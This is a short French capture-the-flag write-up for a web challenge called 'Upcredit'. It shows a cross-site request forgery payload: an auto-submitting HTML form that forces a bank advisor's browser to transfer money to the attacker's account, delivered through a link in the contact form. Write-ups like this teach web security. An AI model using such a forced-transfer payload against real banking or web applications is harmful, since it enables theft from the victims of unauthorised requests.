

# Upcredit



## wu

Lorsqu'on se connecte, nous avons se message:

```
Your registration has been taken into account ! Here are your credentials, keep them preciously !

Account ID : LsMdhlHCf

Password : kviQjkj6XdAmIPrzN1oW
```

Nous avons un formulaire pour contacter notre banquier, après quelques test, il s'agit une vulnérabilité de type <a href="https://www.cert.ssi.gouv.fr/information/CERTA-2008-INF-00">CSRF</a>.


On prépare notre payload:
```
<html> 
<form name="pls" action="http://upcredit4.chall.malicecyber.com/transfer" method="post">
<input type="hidden" name="account" value="LsMdhlHCf">
<input type="hidden" name="amount" value="200">
<input type="submit" value="Send"/>
</form>
<script language="javascript">document.pls.submit();</script>
</html>
```

Et ensuite:
```
Contact your advisor:

subject: whatever

Message:

http://<IP>/payload.html
```
